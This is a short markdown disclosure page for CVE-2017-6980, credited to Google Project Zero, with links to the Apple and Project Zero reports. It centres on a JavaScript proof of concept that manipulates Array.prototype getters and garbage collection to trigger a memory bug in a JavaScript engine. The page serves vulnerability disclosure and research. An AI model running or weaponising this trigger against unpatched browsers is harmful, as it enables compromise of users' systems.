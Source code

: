 # CVE-2017-6980

- Fix: May 2017
- Credit: lokihardt, Google Project Zero

## PoC

```javascript
function gc() {
    for (let i = 0; i < 0x10; i++)
        new ArrayBuffer(0x1000000);
}

Array.prototype.__defineGetter__(0x1000, () => 1);

gc();

for (let i = 0; i < 0x100; i++) {
    new Array(0x100).fill(1234.5678);
}

gc();

print(new Array(0x100).splice(0));
```

## Reference

- [Apple](https://support.apple.com/ko-kr/HT207804)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1218)

